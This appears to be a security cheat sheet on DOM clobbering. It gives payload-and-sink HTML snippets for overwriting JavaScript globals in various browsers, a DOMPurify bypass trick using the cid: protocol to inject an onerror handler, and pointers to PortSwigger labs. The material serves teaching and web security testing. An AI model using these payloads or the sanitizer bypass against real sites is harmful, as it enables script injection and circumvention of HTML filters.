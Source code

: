 # DOM Clobbering

> DOM Clobbering is a technique where global variables can be overwritten or "clobbered" by naming HTML elements with certain IDs or names. This can cause unexpected behavior in scripts and potentially lead to security vulnerabilities.

## Summary

- [Tools](#tools)
- [Methodology](#methodology)
- [Labs](#labs)
- [References](#references)

## Tools

- [SoheilKhodayari/DOMClobbering](https://domclob.xyz/domc_markups/list) - Comprehensive List of DOM Clobbering Payloads for Mobile and Desktop Web Browsers
- [yeswehack/Dom-Explorer](https://github.com/yeswehack/Dom-Explorer) - A web-based tool designed for testing various HTML parsers and sanitizers.
- [yeswehack/Dom-Explorer Live](https://yeswehack.github.io/Dom-Explorer/dom-explorer#eyJpbnB1dCI6IiIsInBpcGVsaW5lcyI6W3siaWQiOiJ0ZGpvZjYwNSIsIm5hbWUiOiJEb20gVHJlZSIsInBpcGVzIjpbeyJuYW1lIjoiRG9tUGFyc2VyIiwiaWQiOiJhYjU1anN2YyIsImhpZGUiOmZhbHNlLCJza2lwIjpmYWxzZSwib3B0cyI6eyJ0eXBlIjoidGV4dC9odG1sIiwic2VsZWN0b3IiOiJib2R5Iiwib3V0cHV0IjoiaW5uZXJIVE1MIiwiYWRkRG9jdHlwZSI6dHJ1ZX19XX1dfQ==) - Reveal how browsers parse HTML and find mutated XSS vulnerabilities

## Methodology

Exploitation requires any kind of `HTML injection` in the page.

- Clobbering `x.y.value`

    ```html
    // Payload
    <form id=x><output id=y>I've been clobbered</output>

    // Sink
    <script>alert(x.y.value);</script>
    ```

- Clobbering `x.y` using ID and name attributes together to form a DOM collection

    ```html
    // Payload
    <a id=x><a id=x name=y href="Clobbered">

    // Sink
    <script>alert(x.y)</script>
    ```

- Clobbering `x.y.z` - 3 levels deep

    ```html
    // Payload
    <form id=x name=y><input id=z></form>
    <form id=x></form>

    // Sink
    <script>alert(x.y.z)</script>
    ```

- Clobbering `a.b.c.d` - more than 3 levels

    ```html
    // Payload
    <iframe name=a srcdoc="
    <iframe srcdoc='<a id=c name=d href=cid:Clobbered>test</a><a id=c>' name=b>"></iframe>
    <style>@import '//portswigger.net';</style>

    // Sink
    <script>alert(a.b.c.d)</script>
    ```

- Clobbering `forEach` (Chrome only)

    ```html
    // Payload
    <form id=x>
    <input id=y name=z>
    <input id=y>
    </form>

    // Sink
    <script>x.y.forEach(element=>alert(element))</script>
    ```

- Clobbering `document.getElementById()` using `<html>` or `<body>` tag with the same `id` attribute

    ```html
    // Payloads
    <html id="cdnDomain">clobbered</html>
    <svg><body id=cdnDomain>clobbered</body></svg>


    // Sink 
    <script>
    alert(document.getElementById('cdnDomain').innerText);//clobbbered
    </script>
    ```

- Clobbering `x.username`

    ```html
    // Payload
    <a id=x href="ftp:Clobbered-username:Clobbered-Password@a">

    // Sink
    <script>
    alert(x.username)//Clobbered-username
    alert(x.password)//Clobbered-password
    </script>
    ```

- Clobbering (Firefox only)

    ```html
    // Payload
    <base href=a:abc><a id=x href="Firefox<>">

    // Sink
    <script>
    alert(x)//Firefox<>
    </script>
    ```

- Clobbering (Chrome only)

    ```html
    // Payload
    <base href="a://Clobbered<>"><a id=x name=x><a id=x name=xyz href=123>

    // Sink
    <script>
    alert(x.xyz)//a://Clobbered<>
    </script>
    ```

## Tricks

- DomPurify allows the protocol `cid:`, which doesn't encode double quote (`"`): `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`

## Labs

- [PortSwigger - Exploiting DOM clobbering to enable XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)
- [PortSwigger - Clobbering DOM attributes to bypass HTML filters](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)
- [PortSwigger - DOM clobbering test case protected by CSP](https://portswigger-labs.net/dom-invader/testcases/augmented-dom-script-dom-clobbering-csp/)

## References

- [Bypassing CSP via DOM clobbering - Gareth Heyes - 05 June 2023](https://portswigger.net/research/bypassing-csp-via-dom-clobbering)
- [DOM Clobbering - HackTricks - January 27, 2023](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering)
- [DOM Clobbering - PortSwigger - September 25, 2020](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [DOM Clobbering strikes back - Gareth Heyes - 06 February 2020](https://portswigger.net/research/dom-clobbering-strikes-back)
- [Hijacking service workers via DOM Clobbering - Gareth Heyes - 29 November 2022](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)
